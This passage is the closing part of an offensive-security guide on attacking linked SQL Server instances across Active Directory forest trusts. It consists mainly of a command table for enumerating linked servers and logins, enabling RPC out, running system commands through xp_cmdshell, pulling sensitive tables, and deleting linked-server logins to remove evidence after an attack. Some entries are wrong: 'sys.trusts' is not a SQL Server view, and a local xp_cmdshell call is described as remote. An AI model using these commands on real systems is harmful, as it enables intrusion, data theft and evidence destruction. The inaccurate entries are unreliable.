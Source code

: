 ### Conclusion

Linked SQL servers in AD forest trusts provide an opportunity for attackers to pivot and escalate privileges across multiple systems. By enumerating linked servers, identifying permission misconfigurations, and abusing delegation, attackers can compromise SQL instances and Active Directory environments.

Using tools like **Impacket's mssqlclient.py** and **MSSQLProxy** can help an attacker execute commands on remote SQL servers, allowing for lateral movement across the network. **BloodHound** can also help map out SQL Server attack paths in complex forest environments.

Here's a comprehensive table of **MSSQL** commands for enumerating and attacking **linked SQL servers** across **AD forests**. These commands can be used from within **SQL Server Management Studio (SSMS)**, **Impacket’s mssqlclient.py**, **PowerShell**, or other SQL tools:


| **Command** / **Tool**                          | **Description**                                                        | **Purpose**                                        |
|-------------------------------------------------|------------------------------------------------------------------------|----------------------------------------------------|
| **`EXEC sp_linkedservers;`**                    | Enumerates all linked servers.                                          | Lists all SQL servers linked to the current server. |
| **`SELECT * FROM sys.servers;`**                | Detailed information on linked servers.                                | Fetches details like server names, product types, and data sources for linked servers. |
| **`SELECT * FROM sys.linked_logins;`**          | Shows login mappings for linked servers.                               | Enumerates linked server login accounts and their mapping. |
| **`SELECT * FROM sys.server_principals;`**      | Enumerates server-level principals, including logins.                  | Useful for identifying privileged users who can access linked servers. |
| **`SELECT * FROM sys.dm_exec_sessions;`**       | Lists current sessions on the SQL Server, including linked server sessions. | Useful for monitoring activity across linked servers. |
| **`EXEC sp_helpserver;`**                       | Provides additional configuration information about linked servers.    | Lists linked servers and additional configuration information. |
| **`EXEC sp_addlinkedsrvlogin;`**                | Adds a new login mapping for a linked server.                          | Add or manipulate linked server logins to escalate privileges. |
| **`EXEC sp_addlinkedserver @server='SQL01', @srvproduct='';`** | Creates a new linked server.                                            | Add a linked server to create lateral movement opportunities across forests. |
| **`EXEC sp_serveroption @server='SQL01', @optname='rpc out', @optvalue='true';`** | Enables RPC out for a linked server.                                    | Allows queries and commands to be executed on the remote server. |
| **`SELECT * FROM OPENQUERY([SQL01], 'SELECT @@version');`**  | Executes a query on a linked server.                                   | Check the version of the remote SQL Server via a linked server. |
| **`EXEC master..xp_cmdshell 'dir';`**           | Executes a command on the remote SQL Server.                           | Run system commands on a linked SQL server if `xp_cmdshell` is enabled. |
| **`SELECT * FROM OPENROWSET('SQLNCLI', 'Server=SQL01;Trusted_Connection=yes;', 'SELECT * FROM sys.databases');` | Query databases on a remote SQL Server via a linked server. | Enumerate databases on a linked server across a forest. |
| **`SELECT * FROM OPENQUERY([LinkedServer], 'SELECT * FROM sensitive_database.dbo.sensitive_table');`** | Query sensitive data across a linked server.                           | Extract data from remote databases via linked servers. |
| **`EXEC sp_droplinkedsrvlogin @rmtsrvname='SQL01';`**        | Remove a linked server login mapping.                                  | Delete evidence or remove access once an attack has been performed. |
| **`EXEC sp_dropserver 'SQL01', 'droplogins';`**              | Removes a linked server and associated logins.                         | Clean up after an attack by removing the linked server and its logins. |
| **`SELECT name, is_trustworthy_on FROM sys.databases WHERE is_trustworthy_on = 1;`** | Find databases with TRUSTWORTHY set to ON.                             | Trustworthy databases can be exploited for privilege escalation, especially in cross-forest attacks. |
| **`SELECT * FROM sys.dm_exec_requests WHERE session_id > 50;`** | Check for running queries or commands on the linked server.             | Monitor active queries and commands to understand activity on linked servers. |
| **`EXEC sys.sp_configure 'remote access', 1;`**               | Enables remote access to the SQL Server.                               | Ensures remote access is possible for linked servers. |
| **`EXEC sys.sp_configure 'show advanced options', 1;`**       | Enables advanced options.                                              | Needed for enabling/disabling features like `xp_cmdshell` that can be abused. |
| **`SELECT * FROM sys.trusts WHERE trust_type = 2;`**          | Lists all trusted domains or forests in the AD environment.            | Useful for finding cross-forest trusts that may allow lateral movement to linked servers. |
| **`SELECT myuser FROM OPENQUERY(\"linked.mssql.domain.forest.com\", 'SELECT SYSTEM_USER AS myuser');`** | Enumerates the user account used to connect to the linked server.      | Useful for determining which accounts are in use across forests. |
| **`SELECT SYSTEM_USER;`**                                    | Returns the current login account for the local server.                | Identify the current user on the local SQL Server instance. |
